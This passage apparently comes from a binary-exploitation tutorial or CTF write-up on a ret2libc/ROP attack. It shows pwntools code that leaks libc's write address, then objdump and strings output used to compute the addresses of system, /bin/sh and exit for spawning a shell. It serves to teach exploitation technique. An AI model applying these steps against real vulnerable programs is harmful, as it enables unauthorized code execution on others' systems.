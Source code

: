 ```python

#gdb.attach('rop')

log.info("Send payload")
proc.send(payload)

log.info("Receiving write address")
# Take only 8 bytes (this will be write address in libc)
leaked_address = proc.recv(8)
write_libc_address = u64(leaked_address)

log.info(f"write address in libc: {hex(write_libc_address)}")

proc.close()
```

## Calculating the libc address

Now when we got a write address we need a libc address.
The libc address can be easily calculated:

```plain
libc_address = obtained_write_address - write_libc_offset
```

Finding write offset in libc:

```plain
# objdump -d -M intel /lib64/libc.so.6 | grep "<__write>:"
00000000000f2520 <__write>:
```

## Obtaining the rest of addresses

When we got the libc address we can calculate the rest addresses:

```plain
system_libc = libc_address + system_libc_offset
bin_sh_libc = libc_address + bin_sh_libc_offset
exit_libc = libc_address + exit_libc_offset
```

Required offsets:

```plain
# objdump -d -M intel /lib64/libc.so.6 | grep "libc_system"
0000000000049e4a <.annobin___libc_system.start>:
0000000000049e50 <__libc_system>:
   49e57:	74 07                	je     49e60 <__libc_system+0x10>
0000000000049e7d <.annobin___libc_system.end>:

#objdump -d -M intel /lib64/libc.so.6 | grep "<exit>:"
000000000003f530 <exit>:

# strings -tx /lib64/libc.so.6 | grep /bin/sh
 18f143 /bin/sh
```

